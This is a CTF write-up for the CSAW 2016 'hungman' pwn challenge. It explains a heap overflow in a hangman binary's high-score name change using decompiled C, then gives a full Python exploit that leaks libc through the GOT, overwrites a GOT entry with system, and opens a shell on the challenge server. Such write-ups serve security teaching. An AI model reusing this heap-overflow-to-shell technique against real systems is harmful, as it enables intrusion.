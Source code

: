 ```yaml
---
layout: post
title: csaw ctf 2016 hungman writeup
category: writeup
---
```


problem binary serves simple hangman service.

```
$ ./hungman
What's your name?
HELLO
Welcome HELLO
_____
q
_q___
d
_q___
s
_q___
a
Default Highscore  score: 64
Continue? n
$
```

it has vulnerability at saving name of high-score.

```c
...
    if ( str_name->score > highScore )
    {
      puts("High score! change name?");
      __isoc99_scanf(" %c", &v3);
      if ( v3 == 'y' )
      {
        s = malloc(0xF8uLL);
        memset(s, 0, 0xF8uLL);
        v8 = read(0, s, 0xF8uLL);
        str_name->len = v8;
        v14 = strchr((const char *)s, '\n');
        if ( v14 )
          *v14 = 0;
        memcpy(str_name->buf, s, v8);
        free(s);
      }
      snprintf(highScoreName, 0x200uLL, "Highest player: %s", str_name->buf);
      highScore = str_name->score;
    }
    memset(&str_name->field_10, 0, 0x1AuLL);
    free(buf);
  }
}
```

It is easy to know that if str_name->buf was malloc with less then 0xF8, heap overflow occured.

So we need to analyze when str_name initiallized.

```c
str *get_name()
{
  char *v0; // ST10_8@3
  str *str_name; // ST18_8@3
  str *result; // rax@3
  __int64 v3; // rbx@3
  int v4; // [rsp+Ch] [rbp-124h]@1
  char *v5; // [rsp+10h] [rbp-120h]@1
  char s; // [rsp+20h] [rbp-110h]@1
  __int64 v7; // [rsp+118h] [rbp-18h]@1

  v7 = *MK_FP(__FS__, 40LL);
  write(1, "What's your name?\n", 0x12uLL);
  memset(&s, 0, 0xF8uLL);
  v4 = read(0, &s, 0xF7uLL);
  v5 = strchr(&s, '\n');
  if ( v5 )
    *v5 = 0;
  v0 = (char *)malloc(v4);
  str_name = (str *)malloc(0x80uLL);
  memset(str_name, 0, 0x80uLL);
  str_name->buf = v0;
  str_name->len = v4;
  memcpy(str_name->buf, &s, v4);
  result = str_name;
  v3 = *MK_FP(__FS__, 40LL) ^ v7;
  return result;
}
```

str_name->len is same as length of my name.

if your name is short, chance of getting highscore gets lower ( because hangman string is initialized with your name ) so we have to choose appropriate length of name, I choose 40.


if heap was overflowed, we can easily get offset of libc binary with .got section, and finaly overwrite to system.

```python
#!/usr/bin/python

import pwnbox
import struct
import argparse
import time

#flag{this_looks_like_its_a_well_hungman}

parser = argparse.ArgumentParser(description='hungman exploit')
parser.add_argument("-l", "--local", action="store_true")

args = parser.parse_args()

def get_highscore():
    x = 'a'
    while True:
        d = p.read_until('\n')
        if 'change name?' in d:
            p.write('y\n')
            return
        else:
            p.write('%c\n' % x)
            x = chr((ord(x)+1) % 26 + ord('a'))

got_snprintf = 0x602048
got_trash = 0x602010

if args.local:
    p = pwnbox.pipe.ProcessPipe('./hungman')
    offset_snprintf = 0x544b0
    offset_gets = 0x6F440
    offset_system = 0x46640
    offset_trash = 0x3db4e0

else:
    p = pwnbox.pipe.SocketPipe('pwn.chal.csaw.io',8003)
    offset_snprintf = 0x55860
    offset_gets = 0x6ECC0
    offset_system = 0x45380
    offset_trash = 0x3e0c80

p.read_until('name?\n')
p.write('A'* (16 * 3 - 8)  + '\n')
p.read_until('\n')
get_highscore()

dummy = "".ljust(0x4C - 8, "A")
payload = ''
payload += struct.pack("<I", 4)
payload += struct.pack("<Q", got_trash)
p.write(dummy + payload)

p.read_until('Highest player: ')

libc_trash = struct.unpack("<Q",p.read_until('score: ')[:6].ljust(8,'\x00'))[0]

libc_base = libc_trash - offset_trash
libc_gets = libc_base + offset_gets
libc_system = libc_base + offset_system

print "%x" % libc_base

p.read_until('Continue? ')
p.write('y')

get_highscore()

payload = ""
payload += "/bin/sh\x00"
payload += struct.pack("<Q",libc_system)
p.write(payload)
#p.write('y\n')

#get_highscore()
#p.write(struct.pack("<Q",libc_system))

p.interact()
```
